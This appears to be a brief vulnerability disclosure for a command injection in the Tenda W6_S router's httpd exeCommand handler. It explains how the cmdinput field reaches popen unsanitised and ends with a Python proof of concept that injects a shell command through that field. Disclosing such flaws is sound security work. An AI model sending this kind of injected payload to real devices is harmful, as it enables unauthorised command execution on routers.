 # command injection

## Tenda_W6_S

version: V1.0.0.4(510)

## Description:

There is a command injection in httpd/formexeCommand

## Source:

you may download it from : https://www.tendacn.com/download/detail-3478.html

## Analyse:


![](1.png)

get value from cmdinput

![](2.png)

then pass to tpi_get_ping_output, concate the string and call popen, cause command execution 

## POC
```
url = "http://192.168.1.13/goform/exeCommand"
payload = 'asd;ls  > ./tmp/hack;aa'

r = requests.post(url, data={'cmdinput': payload})
``` 
